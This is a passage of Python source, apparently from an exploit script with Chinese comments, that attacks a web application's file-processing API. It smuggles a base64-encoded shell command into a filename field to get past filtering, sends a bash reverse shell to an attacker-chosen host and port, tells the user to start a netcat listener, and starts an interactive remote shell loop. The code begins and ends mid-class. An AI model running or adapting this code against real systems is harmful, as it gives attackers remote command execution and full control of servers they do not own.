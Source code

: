 ```python
        """
        print(f"[*] Step 2: Executing command: {command}")
        
        # 构造payload，使用base64编码绕过过滤
        encoded_cmd = base64.b64encode(command.encode()).decode()
        payload = f"; echo {encoded_cmd} | base64 -d | sh #"
        
        try:
            response = self.session.post(
                f"{self.base_url}/api/file/process",
                json={"filename": f"test.txt{payload}"},
                timeout=10
            )
            
            if response.status_code == 200:
                print("[+] Command executed successfully!")
                return response.text
            else:
                print(f"[-] Command execution failed: {response.status_code}")
                return None
                
        except Exception as e:
            print(f"[-] Error: {e}")
            return None
    
    def get_reverse_shell(self, lhost: str, lport: int):
        """
        步骤3: 获取反向shell
        
        Args:
            lhost: 监听主机IP
            lport: 监听端口
        """
        print(f"[*] Step 3: Attempting reverse shell to {lhost}:{lport}")
        print("[!] Make sure you have a listener: nc -lvnp {lport}")
        
        # Bash反向shell payload
        rev_shell = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
        
        result = self.execute_command(rev_shell)
        
        if result:
            print("[+] Reverse shell payload sent!")
            print("[+] Check your listener for incoming connection")
        else:
            print("[-] Failed to send reverse shell payload")
    
    def interactive_shell(self):
        """
        步骤4: 交互式shell
        """
        print("[*] Step 4: Starting interactive shell...")
        print("[*] Type 'exit' to quit\n")
        
        while True:
            try:
                cmd = input(f"shell@{self.target}> ")
                
                if cmd.lower() in ['exit', 'quit']:
                    break
                    
                if not cmd.strip():
                    continue
```